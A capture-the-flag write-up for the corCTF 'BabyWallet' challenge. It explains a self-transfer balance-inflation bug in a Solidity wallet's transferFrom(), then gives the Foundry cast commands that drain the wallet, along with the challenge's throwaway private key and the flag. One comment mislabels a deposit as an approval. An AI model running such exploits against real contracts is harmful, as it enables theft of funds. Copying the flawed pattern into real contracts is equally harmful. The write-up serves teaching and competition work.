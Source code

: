 # BabyWallet

## Challenge
The challenge is hosted using the paradigm framework. We have the standard setup contract and a small "wallet" contract.

```solidity
pragma solidity ^0.8.17;

contract BabyWallet {
    mapping(address => uint256) public balances;
    mapping(address => mapping(address => uint256)) public allowances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amt) public {
        require(balances[msg.sender] >= amt, "You can't withdraw that much");
        balances[msg.sender] -= amt;
        (bool success, ) = msg.sender.call{value: amt}("");
        require(success, "Failed to withdraw that amount");
    }

    function approve(address recipient, uint256 amt) public {
        allowances[msg.sender][recipient] += amt;
    }

    function transfer(address recipient, uint256 amt) public {
        require(balances[msg.sender] >= amt, "You can't transfer that much");
        balances[msg.sender] -= amt;
        balances[recipient] += amt;
    }

    function transferFrom(address from, address to, uint256 amt) public {
        uint256 allowedAmt = allowances[from][msg.sender];
        uint256 fromBalance = balances[from];
        uint256 toBalance = balances[to];

        require(fromBalance >= amt, "You can't transfer that much");
        require(allowedAmt >= amt, "You don't have approval for that amount");

        balances[from] = fromBalance - amt;
        balances[to] = toBalance + amt;
        allowances[from][msg.sender] = allowedAmt - amt;
    }

    fallback() external payable {}
    receive() external payable {}
}
```

Challenge Description:
I wrote my first Solidity smart contract!

## Solution

The vulnerability is in the updating of balances in transferFrom(). It doesn't take into account that you could use transferFrom() to send money to yourself. If that is the case you can (up to) double your balance with each call. This occurs due to the case that the toBalance variable is saved before the balances[from] is decreased and then used to update the balances[to].

I exploited the vulnerability using cast:

```bash
# uuid:           a32d812c-c017-4525-8898-1abf41e4df7c
# rpc endpoint:   https://baby-wallet.be.ax/a32d812c-c017-4525-8898-1abf41e4df7c
# private key:    0xf71da5b63149c5ab9f6df481625be9349da6caeba24ac775abb99e23c64e517c
# your address:   0x32fd93782E10e80f7C91a7F47CA25DeA2B9Db317
# setup contract: 0x1B7c5c695Af092Da30d1178D43f0858003ab128c

rpc="https://baby-wallet.be.ax/a32d812c-c017-4525-8898-1abf41e4df7c"
priv_key=0xf71da5b63149c5ab9f6df481625be9349da6caeba24ac775abb99e23c64e517c
setup_contract=0x1B7c5c695Af092Da30d1178D43f0858003ab128c
my_addr=0x32fd93782E10e80f7C91a7F47CA25DeA2B9Db317

# get address
cast call $setup_contract "wallet()(address)" --rpc-url $rpc

# Save the address we received.
wallet_contract=0x7c7Aa31DCE00dDbBDfC3755467ebBe04DBa14251

# Findout how much eth we have
cast balance $my_addr --rpc-url $rpc
# We have 5000eth which makes it pretty easy 

# First we deposit 100 eth
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "deposit()" --value 100ether

# Now we check if our balance has increased as planned
cast call --rpc-url $rpc $wallet_contract "balances(address)(uint256)" $my_addr

# Now we approve ourselves for 100eth
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "deposit()" --value 100ether

# Call the function
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "approve(address,uint256)" $my_addr 100ether

# Now we transfer 100 eth from us to us
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "transferFrom(address,address,uint256)" $my_addr $my_addr 100ether

# Now we check if our balance has increased as planned
cast call --rpc-url $rpc $wallet_contract "balances(address)(uint256)" $my_addr

#Now we withdraw all the money
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "withdraw(uint256)" 200ether

# Check if it was solved
cast call $setup_contract "isSolved()(bool)" --rpc-url $rpc
```

flag = corctf{inf1nite_m0ney_glitch!!!}